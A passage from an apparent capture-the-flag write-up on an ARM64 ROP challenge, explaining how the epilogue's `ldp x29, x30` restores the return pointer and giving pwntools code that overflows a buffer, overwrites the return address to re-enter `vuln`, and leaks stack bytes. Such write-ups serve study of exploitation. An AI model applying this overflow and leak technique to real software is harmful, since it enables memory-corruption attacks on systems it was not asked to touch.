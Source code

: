 And we know that the RP is loaded using the instruction `ldp x29, x30, [sp], #48` which means load x29 and x30 from the stack pointer, and then add 48 to the valuestack pointer (part of the calling convention to restore the stack frame). This means that $sp (the base of our string) will be loaded into x29, then the next 8 bytes into x30, which is where we need our RP:

```python
# Set up the buffer overflow to call vuln again to leak some more
message = b"A"*0x20 #                                                        
message += b"S"*8   # Saved Frame
message += p64(elf.symbols['vuln']+0x18)   # RP overwrite - we're BOFing here to return to printf and leak more
p.sendlineafter(b"message now: ",message)                                                                                                                 
p.clean()                                                                    
name = b"C"*0x30                                                                                                                                          
name += b"R"*0x8
name += b"P"*0x30
p.sendline(name)     
p.readuntil(name)                                                            
STACK_LEAK = p.readuntil("\n; send", drop=True)     # Raw bytes of addr
```

At the point of some return:

![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_10.png)